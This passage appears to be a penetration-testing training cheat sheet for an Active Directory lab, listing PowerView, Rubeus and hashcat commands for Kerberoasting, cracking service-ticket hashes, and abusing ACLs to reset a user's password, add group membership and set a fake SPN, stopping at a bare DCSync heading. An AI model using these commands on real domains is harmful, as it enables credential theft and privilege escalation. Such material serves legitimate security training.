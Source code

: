 | `Get-DomainUser * -SPN \| Get-DomainSPNTicket -Format Hashcat \| Export-Csv .\ilfreight_tgs.csv -NoTypeInformation` | Exports all TGS tickets to a .CSV file (ilfreight_tgs.csv) from a Windows-based host. |
| `cat .\ilfreight_tgs.csv` | Used to view the contents of the .csv file from a Windows-based host. |
| `.\Rubeus.exe` | Used to view the options and functionality possible with the tool Rubeus. Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /stats` | Used to check the kerberoast stats (/stats) within the target Windows domain from a Windows-based host. |
| `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap` | Used to request/download TGS tickets for accounts with the admin count set to 1 then formats the output in an easy to view & crack manner (/nowrap) . Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /user:testspn /nowrap` | Used to request/download a TGS ticket for a specific user (/user:testspn) the formats the output in an easy to view & crack manner (/nowrap). Performed from a Windows-based host. |
| `Import-Module .\PowerView.ps1 Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes` | PowerView tool used to check the msDS-SupportedEncryptionType attribute associated with a specific user account (testspn). Performed from a Windows-based host. |
| `hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt` | Used to attempt to crack the ticket hash using a wordlist (rockyou.txt) from a Linux-based host. |


##ACL Enumeration & Tactics
| Command | Description |
|---------|-------------|
| `Find-InterestingDomainAcl` | PowerView tool used to find object ACLs in the target Windows domain with modification rights set to non-built in objects from a Windows-based host. |
| `Import-Module .\PowerView.ps1 $sid = Convert-NameToSid wley` | Used to import PowerView and retrieve the SID of a specific user account (wley) from a Windows-based host. |
| `Get-DomainObjectACL -Identity * \| ? {$_.SecurityIdentifier -eq $sid}` | Used to find all Windows domain objects that the user has rights over by mapping the user's SID to the SecurityIdentifier property from a Windows-based host. |
| `$guid= "00299570-246d-11d0-a768-00aa006e0529" Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * \| Select Name,DisplayName,DistinguishedName,rightsGuid \| ?{$_.rightsGuid -eq $guid} \| fl` | Used to perform a reverse search & map to a GUID value from a Windows-based host. |
| `Get-DomainObjectACL -ResolveGUIDs -Identity * \| ? {$_.SecurityIdentifier -eq $sid}` | Used to discover a domain object's ACL by performing a search based on GUID's (-ResolveGUIDs) from a Windows-based host. |
| `Get-ADUser -Filter * \| Select-Object -ExpandProperty SamAccountName > ad_users.txt` | Used to discover a group of user accounts in a target Windows domain and add the output to a text file (ad_users.txt) from a Windows-based host. |
| `foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" \| Select-Object Path -ExpandProperty Access \| Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}` | A foreach loop used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(ad_users.txt) to the Get-ADUser cmdlet, then enumerates access rights of those users. Performed from a Windows-based host. |
| `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)` | Used to create a PSCredential Object from a Windows-based host. |
| `$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` | Used to create a SecureString Object from a Windows-based host. |
| `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` | PowerView tool used to change the password of a specifc user (damundsen) on a target Windows domain from a Windows-based host. |
| `Get-ADGroup -Identity "Help Desk Level 1" -Properties * \| Select -ExpandProperty Members` | PowerView tool used view the members of a target security group (Help Desk Level 1) from a Windows-based host. |
| `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to add a specifc user (damundsen) to a specific security group (Help Desk Level 1) in a target Windows domain from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName` | PowerView tool used to view the members of a specific security group (Help Desk Level 1) and output only the username of each member (Select MemberName) of the group from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` | PowerView tool used create a fake Service Principal Name given a sepecift user (adunn) from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose` | PowerView tool used to remove the fake Service Principal Name created during the attack from a Windows-based host. |
| `Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to remove a specific user (damundsent) from a specific security group (Help Desk Level 1) from a Windows-based host. |
| `ConvertFrom-SddlString` | PowerShell cmd-let used to covert an SDDL string into a readable format. Performed from a Windows-based host. |


##DCSync
| Command | Description |
|---------|-------------|